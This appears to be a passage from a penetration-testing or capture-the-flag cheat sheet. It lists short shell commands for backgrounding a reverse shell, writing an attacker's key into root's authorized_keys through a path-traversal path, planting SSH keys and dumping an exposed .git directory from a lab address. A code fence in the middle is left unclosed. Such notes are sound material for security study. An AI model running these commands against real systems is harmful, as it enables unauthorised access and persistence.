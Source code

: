 #### Background a Payload, Shell, or Process

Let's say that you're executing a reverse shell (from a reverse shell), and you don't want that shell to just hang there, simply append an '&' to the end of your command and it will background the reverse shell process:

```bash
./binary444&
```

#### Check What Process is Running on a Port

```bash
Get-NetTCPConnection -LocalPort 8080 | Select-Object -Property OwningProcess | Get-Process
```

```bash
sudo ss -ltnp | grep ':8080'
# or
sudo netstat -ltnp | grep ':8080'
```

#### Overwrite or Modify authorized_keys

```bash
ssh-keygen
cat key.pub > ../../../../../../../../../../root/.ssh/authorized_keys
ssh -i key root@<ip address>
```

```bash
#### Upload SSH Key Properly

```bash
ssh-keygen -t rsa
chmod 600 file
chmod 666 file.pub
mv file.pub authorized_keys
# Copy the contents of (authorized_keys) file.pub to their authorized_keys file
ssh -i file user@host
```

#### Exposed Git Repo from URL

```bash
wget -r -np -nH --cut-dirs=1 -R "index.html*" http://192.168.211.144/.git/
# or
python3 /opt/git-dumper/git_dumper.py http://192.168.211.144/.git .
```

Then, do:

```bash
git log
git show <each commit>
```

#### Cracking Zip File
